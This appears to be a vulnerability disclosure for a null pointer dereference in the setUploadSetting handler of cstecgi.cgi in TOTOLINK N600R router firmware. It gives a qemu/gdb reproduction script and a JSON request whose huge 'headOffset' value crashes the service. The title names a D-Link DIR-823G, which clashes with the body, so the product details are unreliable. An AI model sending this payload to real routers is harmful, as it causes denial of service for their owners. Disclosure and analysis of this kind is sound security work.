



# Bug Report: NPD in D-Link DIR-823G Router
A null pointer dereference null pointer dereference overflow vulnerability has been identified in the TOTOLINK N600R router firmware that allows remote attackers to cause denial of service.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Null pointer dereference

## Description:

The vulnerable code path within the `sub_41773C` function (setUploadSetting handler) of cstecgi.cgi extracts the `ContentLength` parameter and `headOffset` parameter. It has a size check for the `ContentLength`. However, the malloc size is the sum of both parameters, so we could set the `headOffset` as a large size to make the `malloc` return null. The null pointer is passed into `memset` without a null check, leading to a null pointer dereference resulting in a DoS attack.



## poc

We set a breakpoint before the function call `memset` at line 93. By dumping the registers, we can see that `v10` is null and `v7 + v5` is a positive value. By tracing the execution, we find a null pointer dereference occurs.



## reproduce

```bash
./sub_41773C.sh
```

```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

### sub_41773C.sh
```bash
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi.cgi  < sub_41773C.json
```
### sub_41773C.json
```json
{
    "topicurl" : "UploadCustomModule/setUploadSetting",
    "ContentLength" : "10000",
    "headOffset": "2147473646"
}
```